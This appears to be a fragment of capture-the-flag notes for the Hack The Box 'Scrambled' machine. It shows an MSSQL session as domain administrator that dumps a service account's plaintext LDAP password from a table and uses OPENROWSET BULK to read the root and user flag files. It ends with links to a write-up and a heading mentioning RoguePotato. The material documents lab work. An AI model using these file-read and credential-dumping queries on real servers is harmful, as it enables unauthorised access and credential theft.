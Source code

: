 ```bash
tempdb       

model        

msdb         

ScrambleHR   

SQL (SCRM\administrator  dbo@master)> SELECT name, database_id FROM sys.databases;
name         database_id   
----------   -----------   
master                 1   

tempdb                 2   

model                  3   

msdb                   4   

ScrambleHR             5

SQL (SCRM\administrator  dbo@master)> SELECT TABLE_NAME FROM ScrambleHR.INFORMATION_SCHEMA.TABLES;
TABLE_NAME   
----------   
Employees    

UserImport   

Timesheets   

SQL (SCRM\administrator  dbo@master)> SELECT * from ScrambleHR.dbo.UserImport;
LdapUser   LdapPwd             LdapDomain   RefreshInterval   IncludeGroups   
--------   -----------------   ----------   ---------------   -------------   
MiscSvc    ScrambledEggs9900   scrm.local                90               0

SQL (SCRM\administrator  dbo@master)> SELECT BulkColumn FROM OPENROWSET(BULK 'C:\users\administrator\desktop\root.txt', SINGLE_CLOB) MyFile
BulkColumn                                
---------------------------------------   
b'04049384ac7ea46e9206aaa22b217606\r\n'   

SQL (SCRM\administrator  dbo@master)> SELECT BulkColumn FROM OPENROWSET(BULK 'C:\users\miscsvc\desktop\user.txt', SINGLE_CLOB) MyFile
BulkColumn                                
---------------------------------------   
b'01f67f1fb5da56603a59c6a7178de6d1\r\n' 
```

* https://0xdf.gitlab.io/2022/10/01/htb-scrambled-beyond-root.html#
* https://www.mssqltips.com/sqlservertip/1643/using-openrowset-to-read-large-files-into-sql-server/

# Awesome potato
* https://0xdf.gitlab.io/2022/10/01/htb-scrambled-beyond-root.html#roguepotato